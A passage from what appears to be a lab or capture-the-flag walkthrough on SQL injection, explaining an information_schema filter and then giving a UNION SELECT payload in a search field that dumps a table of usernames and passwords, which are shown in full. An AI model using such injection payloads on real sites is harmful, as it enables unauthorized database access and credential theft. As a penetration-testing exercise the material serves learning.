 `WHERE TABLE_SCHEMA='users' AND TABLE_NAME='UserDetails'`: This is a filter applied to the query, restricting the results to columns where the `TABLE_SCHEMA` is equal to 'users' and the `TABLE_NAME` is equal to 'UserDetails'. We are specifically targeting columns within the 'UserDetails' table in the 'users' schema.



<figure><img src="../../.gitbook/assets/Pasted image 20231102185733.png" alt=""><figcaption></figcaption></figure>

```sql
search=Mary' UNION SELECT 1,2,3,4,username,password FROM users.UserDetails-- -
```

We select the `username` and `password` columns from the `users.UserDetails` table and we get all the usernames and passwords.

| username  | password      |
| --------- | ------------- |
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC\&TheBoyz   |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |